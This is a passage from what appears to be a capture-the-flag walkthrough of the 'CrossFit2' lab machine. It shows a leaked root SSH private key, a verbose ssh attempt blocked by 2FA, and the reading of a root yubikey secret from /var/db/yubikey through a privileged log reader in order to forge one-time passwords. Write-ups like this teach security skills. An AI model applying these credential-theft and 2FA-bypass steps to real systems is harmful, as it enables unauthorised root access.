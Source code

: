 ```
kYpvLiTBX7Zx9okfEh7004g/DBp7KmJ0YW3cR2u77KmdTOprEwtrxJWc5ZyWfI2/rv+piV
InfLTLV0YHv3d2oo8TjUl4kSe2FSzhzFPvNh6RVWvvtZ96lEK3OvMpiC+QKRA2azc8QMqY
HyLF7Y65y6a9YwH+Z6GOtB+PjezsbjO/k+GbkvjClXT6FWYzIuV+DuT153D/HXxJKjxybh
iJHdkEyyQPvNH8wEyXXSsVPl/qZ+4OJ0mrrUif81SwxiHWP0CR7YCje9CzmsHzizadhvOZ
gtXsUUlooZSGboFRSdxElER3ztydWt2sLPDZVuFUAp6ZeMtmgo3q7HCpUsHNGtuWSO6QAA
AMEA6INodzwbSJ+6kitWyKhOVpX8XDbTd2PQjOnq6BS/vFI+fFhAbMH/6MVZdMrB6d7cRH
BwaBNcoH0pdem0K/Ti+f6fU5uu5OGOb+dcE2dCdJwMe5U/nt74guVOgHTGvKmVQpGhneZm
y2ppHWty+6QimFeeSoV6y58Je31QUU1d4Y1m+Uh/Q5ERC9Zs1jsMmuqcNnva2/jJ487vhm
chwoJ9VPaSxM5y7PJaA9NwwhML+1DwxJT799fTcfOpXYRAAKiiAAAAwQD5vSp5ztEPVvt1
cvxqg7LX7uLOX/1NL3aGEmZGevoOp3D1ZXbMorDljV2e73UxDJbhCdv7pbYSMwcwL4Rnhp
aTdLtEoTLMFJN/rHhyBdQ2j54uztoTVguYb1tC/uQZvptX/1DJRtqLVYe6hT6vIJuk/fi8
tktL/yvaCuG0vLdOO52RjK5Ysqu64G2w+bXnD5t1LrWJRBK2PmJf+406c6USo4rIdrwvSW
jYrMCCMoAzo75PnKiz5fw0ltXCGy5Y6PMAAADBAPhXwJlRY9yRLUhxg4GkVdGfEA5pDI1S
JxxCXG8yYYAmxI9iODO2xBFR1of1BkgfhyoF6/no8zIj1UdqlM3RDjUuWJYwWvSZGXewr+
OTehyqAgK88eFS44OHFUJBBLB33Q71hhvf8CjTMHN3T+x1jEzMvEtw8s0bCXRSj378fxhq
/K8k9yVXUuG8ivLI3ZTDD46thrjxnn9D47DqDLXxCR837fsifgjv5kQTGaHl0+MRa5GlRK
fg/OEuYUYu9LJ/cwAAABJyb290QGNyb3NzZml0Mi5odGIBAgMEBQYH
-----END OPENSSH PRIVATE KEY-----
```

Trying to use this key to ssh in fails however. Checking the verbose output we see the authentication had partial success, which means 2FA is enabled.

```
$ ssh -i root -v root@crossfit.htb
OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1k  25 Mar 2021
debug1: Reading configuration data /etc/ssh/ssh_config
...[snip]...
Authenticated with partial success.
debug1: Authentications that can continue: password
debug1: Next authentication method: password
root@crossfit.htb's password:
```

Looking for the 2FA method in the `/var` folder we find an interesting `yubikey` folder under `db`.

```
crossfit2$ ls /var/db/
acpi                       ldap                       rpki-client
dhclient.leases.vmx0       libc.tags                  xkb
host.random                locate.database            xmlcatalog
installed.SHA256           ns                         yubikey
kernel.SHA256              ntpd.drift
kvm_bsd.db                 pkg
```

With the default naming scheme for yubikey files we can retrieve all the files we need to generate our own OTP's.

```
crossfit2$ log /var/db/yubikey/root.key  

* LogReader v0.1

[*] Log size: 33

6bf9a26475388ce998988b67eaa2ea87
```
